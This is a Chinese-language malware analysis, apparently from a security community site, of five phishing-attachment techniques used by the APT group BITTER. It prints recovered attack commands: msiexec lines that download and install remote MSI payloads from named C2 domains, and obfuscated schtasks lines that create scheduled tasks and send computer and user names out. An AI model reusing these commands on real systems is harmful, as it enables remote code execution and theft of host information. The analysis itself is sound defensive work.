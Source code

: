 

# APT 组织“蔓灵花”恶意邮件附件 5 种手法分析 - 先知社区

APT 组织“蔓灵花”恶意邮件附件 5 种手法分析

- - -

# 前言

最近有遇到同源样本，所以整合了一下近期”蔓灵花“组织钓鱼邮件中恶意附件执行的常见手法，包括：

-   恶意“.chm”文件投放
-   恶意"DDE"隐藏域代码执行
-   “.ppt”文件 PowerPoint 单击鼠标事件
-   恶意宏文档
-   公式编辑器漏洞利用

这篇文章会让你对上述的 5 类手法有个基本认识。后续会记录 23 年 5 月首次曝光的“蔓灵花”恶意邮件附件配套的后续载荷，白加黑”ORPCBackdoor“后门。（在此之前后续载荷常见为”wmRAT“远控）。

# 背景

蔓灵花组织，又称为 BITTER、APT-C-08、苦象、T-APT-17，是一支据称有南亚背景的高级持久性威胁（APT）组织。自 2013 年 11 月起，该组织开始活跃，并主要专注于巴基斯坦和中国两国。其攻击目标主要包括政府部门、电力行业、军工业相关单位，其意图是窃取敏感资料。

# 恶意附件手法分析

例举的五种已知的“蔓灵花”组织钓鱼手法，最终目的大都是创建计划任务定时 15 到 25 分钟请求一次 C2 远程加载（msiexec）恶意“.msi”文件。在请求时会带上计算机名和用户名，上线后 C2 后台会用计算机名和用户名创建一个空白的文件夹。攻击者会在诸多文件夹中挑选感兴趣的目标放入“.msi”文件，选中目标下次计划任务成功执行就会完成恶意的远程加载。

所以想去获取后续载荷直接访问多数时候是空的。

## （一）“.chm”文件投放

大概从 2021 年初起，“蔓灵花”组织使用“.chm”恶意文件投递的手法就很常见，这些年又猛猛吃老本。下图是一个受控的“.gov”邮箱账号，散播携带“.chm”恶意文件压缩包附件的邮件。  
[![](assets/1708677506-3525761564de702174cf26c3de1036fb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221170853-d5f198b4-d098-1.png)  
查看其包含的恶意代码如下，主要是功能是创建一个恶意的计划任务。  
[![](assets/1708677506-2d5d40a73c86f599fe5a52c5ca1e2900.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221170912-e0fcad3e-d098-1.png)  
每隔 17 分钟远程加载（msiexec）一次恶意资源，并且上传主机名和用户名，计划任务如下图。  
[![](assets/1708677506-e0192d023938b7c42302305452dcb73f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221170927-ea2907a4-d098-1.png)  
请求 url 地址

```bash
http://comnmsgwrapsvc.net/ver/verif.php/?h=%computername%*%username% 
http://folkmusicstreams.com/TIME/mac.php?sit=%computername%*%username%
```

抓取数据包如下图  
[![](assets/1708677506-06af77c08b157bb5b3a09d92a559095a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221171012-049f07e6-d099-1.png)  
msiexec 命令远程加载是值得注意的事情。msiexec 是 Windows 操作系统下的命令行工具，用于安装、修复、卸载 Windows Installer 软件包。它支持加载远程资源安装，运行时，将 msi 文件从远程位置下载到本地的临时目录中，并在本地落地进行安装。安装完成或发生错误，临时的 msi 文件将从磁盘上删除。

所以在取证时，在受检 PC 或服务器是找不到 msi 包的。但是该方法在流量分析的角度是很容易被检测，使用 msiexec 做远程 http 资源加载，http 头“User-Agent”字段固定为“Windows Installer”（如上图）,如果你编写检测规则，一律判定恶意，就可以检测此类的远程加载恶意行为。

## （二）恶意"DDE"隐藏域代码执行

攻击者投递带有恶意 DDE auto 的文档。”.docx“文档打开时一片空白（也可能有其他正常的一些迷惑文字或图片信息），在选项中找到->视图->显示文档内容->域代码。  
[![](assets/1708677506-0414956c758cbd222e9b4f25c01ddfc9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221171046-19206a52-d099-1.png)  
打开之后长这样，实际上是十进制数。  
[![](assets/1708677506-a90252f8c675db2e8b9e7d639faa448a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221171058-2069af62-d099-1.png)  
对应转 ascll 文本，同样是计划任务远程加载恶意 msi 文件。  
[![](assets/1708677506-6dc92845a115e134f7a0440d1cf83d48.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221171113-2960c7e0-d099-1.png)

```bash
"cmd /c msiexec.exe /i http://nesiallservice.net/chq/stall.msi /q"
```

值得一提的是 APT-Q-42 腾云蛇组织用过类似的手法，南亚组织手法错综复杂，好几个组织搞不好就是一伙人。

## （三）“.ppt”文件 PowerPoint 单击鼠标事件

攻击者下发恶意”.PPT“文件。在图片上设置了鼠标单击事件，同样是创建计划任务远程加载恶意 msi 资源。  
[![](assets/1708677506-cfbb07424d8b6932bcbea1530320de52.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221171208-4a20ea14-d099-1.png)

```bash
cmd.exe <p style=color:white> /c schtasks /create /sc minute /mo 15 /tn AudioDg /f /tr  "%coMSPec% /c start /min msiexec /i  http://farleysmxpph.com/FOXX/far.php?ptu=%computername%*%username% /qn /norestart"& echo"</p><h3>继续</h3><p style=color:white>
```

## （四）文档宏病毒

攻击者下发携带恶意宏的文件。宏文档投递数相对较少见，毕竟初次要提示用户启用与否，可能总体成功率不高。启用宏之后在开发工具-->VB 编辑器中查看。  
[![](assets/1708677506-694f28bf084b3ba5e9a15638e677031a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221171246-6087ccfa-d099-1.png)  
可能存在密码校验，使用工具 VBA\_Password\_Bypasser 即可解密，注意这玩意儿要激活才能使用，有教程可以找到。后续就可以分析其中的恶意代码功能了。  
[![](assets/1708677506-03d7920e6f7ecedaf6d2d8faaf8eeb96.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221171301-69864e9e-d099-1.png)

## （五）CVE-2018-0798 公式编辑器漏洞

攻击者下发携带漏洞的”.xlsx"文件，在诸多公式编辑器漏洞里，CVE-2018-0798 算是利用成功率比较高的。这受影响的版本软件和样本还有点难找。  
[![](assets/1708677506-a5d0d29473ecbd76c11a3fa8119dd89b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221171412-93cedd7e-d099-1.png)  
这是进程释放的详情，也是一样的创建计划任务远程恶意加载。  
[![](assets/1708677506-798442db9481f3ab1eba4eb8035ff2c4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221171430-9e66893a-d099-1.png)

```bash
"C:\Windows\System32\schtasks.exe" /create /sc MINUTE /mo 15 /TN \Windows\DWM\DWMCORE /TR "cmd /c start /min ms^iex^ec /i htt^p^:^//alf^ieh^eal^thc^ares^erv^ice^.^com/AL/al.php/?dt=%computername% /q" /f
```

- - -
